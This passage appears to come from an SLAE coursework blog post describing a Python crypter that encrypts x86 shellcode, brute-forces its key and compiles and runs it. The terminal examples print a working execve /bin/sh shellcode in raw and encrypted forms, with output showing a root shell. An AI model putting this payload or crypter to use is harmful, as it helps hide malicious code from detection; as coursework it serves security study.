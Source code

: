 The decryption scheme is straightforward. The script iterates through the entire keyspace decrypting the input shellcode with each key until it spots our `\\xff` padding and then it knows it has found the right key and prints the output. I picked this concept up from the SLAE coursework itself, and it was awesome to apply it to this python script.

## Execution Process

For execution, the script just appends a `shellcode.c` writing process onto the decryption function and then compiles and runs that file. 

## Usage

### Encryption

`python crypter.py --encrypt (-e) <shellcode>`:
```terminal_session
root@kali:~/petprojects/SLAE# python crypter.py -e \\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80

[+] Encrypted Shellcode: \\x2f\\x84\\x39\\x62\\x4b\\x98\\x06\\x9b\\x8f\\xb4\\x3d\\xdc\\x5e\\x65\\x60\\xbf\\x7b\\x96\\xc6\\x52\\x9a\\x4b\\x2c\\xf8\\x5d\\x55\\x12\\x7b\\x37\\x8e\\x56\\x69
```

### Decryption

`python crypter.py --decrypt (-d) <shellcode>`:
```terminal_session
root@kali:~/petprojects/SLAE# python crypter.py -d \\x2f\\x84\\x39\\x62\\x4b\\x98\\x06\\x9b\\x8f\\xb4\\x3d\\xdc\\x5e\\x65\\x60\\xbf\\x7b\\x96\\xc6\\x52\\x9a\\x4b\\x2c\\xf8\\x5d\\x55\\x12\\x7b\\x37\\x8e\\x56\\x69

[+] Bruteforcing key for decryption...
[+] Decrypted Shellcode: \\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80
```

### Execution

`python crypter.py --execute (-x) <shellcode>`:
```terminal_session
root@kali:~# python crypter.py -x \\x2f\\x84\\x39\\x62\\x4b\\x98\\x06\\x9b\\x8f\\xb4\\x3d\\xdc\\x5e\\x65\\x60\\xbf\\x7b\\x96\\xc6\\x52\\x9a\\x4b\\x2c\\xf8\\x5d\\x55\\x12\\x7b\\x37\\x8e\\x56\\x69
Shellcode Length:  25
# id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
Linux kali 4.17.0-kali1-686 #1 SMP Debian 4.17.8-1kali1 (2018-07-24) i686 GNU/Linux
```

The script successfully encrypts, decrypts, and executes shellcode. Success!

You can find the code below, it is pretty heavily commented to help those who are not used to reading ugly python. 
